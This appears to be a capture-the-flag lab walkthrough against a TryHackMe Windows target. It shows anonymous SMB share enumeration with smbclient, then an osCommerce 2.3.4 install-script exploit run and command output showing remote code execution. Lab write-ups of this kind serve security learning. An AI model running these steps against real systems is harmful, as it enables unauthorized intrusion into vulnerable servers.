 
root@LAPTOP-U5913CMD:/home/akshay/Desktop# smbclient -N -L \\\\10.10.69.251\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk
        Windows         Disk
SMB1 disabled -- no workgroup available


root@LAPTOP-U5913CMD:/home/akshay/Desktop# smbclient //10.10.69.251/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 12 04:06:40 2019
  ..                                 DR        0  Fri Apr 12 04:06:40 2019
  Default                           DHR        0  Tue Jul 14 12:47:20 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:11:57 2009
  Public                             DR        0  Tue Jul 14 10:11:57 2009

                7863807 blocks of size 4096. 4761263 blocks available
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                  DR        0  Fri Apr 12 04:06:40 2019
  ..                                 DR        0  Fri Apr 12 04:06:40 2019
  Default                           DHR        0  Tue Jul 14 12:47:20 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:11:57 2009
  Public                             DR        0  Tue Jul 14 10:11:57 2009
cd
                7863807 blocks of size 4096. 4761263 blocks available
smb: \> cd Default
smb: \Default\> ls


Seems like we can access Users file.
What can we do now lets see.

WE have got oscommerce exploit

http://10.10.69.251:8080/oscommerce-2.3.4/catalog/install/

Lets see if it gets exploited.


root@LAPTOP-U5913CMD:/home/akshay/Downloads# python 44374.py
[+] Successfully launched the exploit. Open the following URL to execute your code

http://blueprint.thm:8080//oscommerce-2.3.4/catalog/install/includes/configure.php
root@LAPTOP-U5913CMD:/home/akshay/Downloads#


Warning: Unterminated comment starting line 27 in C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\configure.php on line 27
Volume in drive C has no label. Volume Serial Number is 14AF-C52C Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes 11/13/2020 03:27 PM
. 11/13/2020 03:27 PM
.. 04/11/2019 09:52 PM 447 application.php 11/13/2020 03:28 PM 1,118 configure.php 04/11/2019 09:52 PM
functions 2 File(s) 1,565 bytes 3 Dir(s) 19,504,197,632 bytes free
